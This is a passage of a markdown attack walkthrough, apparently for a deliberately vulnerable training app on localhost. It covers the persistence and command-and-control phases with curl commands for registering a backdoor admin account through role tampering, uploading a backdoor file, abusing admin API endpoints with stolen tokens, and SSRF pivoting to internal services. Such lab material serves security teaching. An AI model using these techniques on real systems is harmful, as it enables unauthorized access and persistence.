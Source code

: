 ### 5. Installation
**Objective:** Establish persistent access to the system

**Persistence Techniques:**

**A. Create Backdoor Account:**
```bash
# Register new admin account through parameter tampering
curl -X POST http://localhost:3000/wcorp/api/register \
  -H "Content-Type: application/json" \
  -d '{"username":"backdoor","password":"secret","email":"backdoor@test.com","role":"admin"}'
```

**B. Session Persistence:**
```bash
# Store valid authentication tokens
# Exploit long session timeouts
# Use discovered JWT secret to forge tokens
```

**C. Upload Backdoor Files:**
```bash
# Upload files to accessible uploads directory
curl -X POST http://localhost:3000/wcorp/api/upload \
  -F "file=@backdoor.html" \
  -H "Authorization: Bearer <token>"

# Access at http://localhost:3000/uploads/backdoor.html
```

### 6. Command & Control
**Objective:** Maintain communication and control over compromised assets

**C2 Techniques:**

**A. Administrative Access:**
```bash
# Use compromised admin credentials
# Access admin panel
curl -H "Authorization: Bearer <admin-token>" \
  http://localhost:3000/wcorp/admin
```

**B. API Abuse:**
```bash
# Use admin API endpoints
curl -H "Authorization: Bearer <admin-token>" \
  http://localhost:3000/wcorp/api/admin/users

curl -H "Authorization: Bearer <admin-token>" \
  http://localhost:3000/wcorp/api/admin/stats
```

**C. SSRF for Internal Access:**
```bash
# Use SSRF to pivot to internal network
curl "http://localhost:3000/wcorp/api/fetch-url?url=http://internal-service:8080"
```
